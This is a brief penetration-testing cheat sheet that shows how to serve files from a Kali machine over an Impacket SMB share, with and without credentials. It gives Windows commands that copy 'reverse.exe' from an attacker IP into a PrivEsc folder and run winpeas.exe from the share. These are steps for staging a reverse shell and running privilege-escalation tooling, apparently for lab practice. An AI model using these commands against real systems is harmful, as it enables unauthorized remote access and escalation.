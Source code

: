 ## Setup a Impacket share folder (no authentication) 
### On Kali
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

### On Windows 
```powershell
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
net use Z: \\10.10.10.10\kali\ 
```

## Setup a Impacket share folder (authentication needed) 
### On Kali
```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali -smb2support -username kali -password kali .
```

### On Windows
```powershell
net use Z: \\10.10.14.4\kali /user:kali kali
\\10.10.14.4\kali\winpeas.exe /user:kali kali
```
